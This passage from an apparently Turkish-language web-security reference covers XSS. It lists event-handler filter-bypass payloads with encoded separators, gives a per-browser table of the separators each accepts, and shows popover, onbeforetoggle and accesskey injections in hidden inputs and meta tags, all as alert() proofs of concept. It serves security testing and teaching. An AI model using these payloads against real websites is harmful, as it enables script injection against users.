```javascript
```
### Ters sekme yakalama
```javascript
<a target="_blank" rel="opener"
```
Eğer herhangi bir URL'yi **`<a href=`** etiketi içine enjekte edebiliyorsanız ve bu etiket **`target="_blank" ve rel="opener"`** niteliklerini içeriyorsa, bu davranışı istismar etmek için **aşağıdaki sayfayı kontrol edin**:

{{#ref}}
../reverse-tab-nabbing.md
{{#endref}}

### Olay İşleyicileri Bypass

Öncelikle, yararlı **"on" olay işleyicileri** için bu sayfayı kontrol edin ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)).\
Eğer bu olay işleyicilerini oluşturmanızı engelleyen bir kara liste varsa, aşağıdaki bypass'ları deneyebilirsiniz:
```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```
### XSS in "Unexploitable tags" (hidden input, link, canonical, meta)

From [**here**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **artık gizli girişleri kötüye kullanmak mümkün:**
```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle="alert(1)" />
```
Ve **meta etiketlerinde**:
```html
<!-- Injection inside meta attribute-->
<meta
name="apple-mobile-web-app-title"
content=""
Twitter
popover
id="newsletter"
onbeforetoggle="alert(2)" />
<!-- Existing target-->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```
[**buradan**](https://portswigger.net/research/xss-in-hidden-input-fields): **Gizli bir öznitelik içinde bir XSS yükü çalıştırabilirsiniz**, eğer **kurbanı** **tuş kombinasyonuna** **ikna edebilirseniz**. Firefox Windows/Linux'ta tuş kombinasyonu **ALT+SHIFT+X** ve OS X'te **CTRL+ALT+X**'dir. Erişim anahtarı özniteliğinde farklı bir tuş kullanarak farklı bir tuş kombinasyonu belirtebilirsiniz. İşte vektör:
```markup
<input type="hidden" accesskey="X" onclick="alert(1)">
```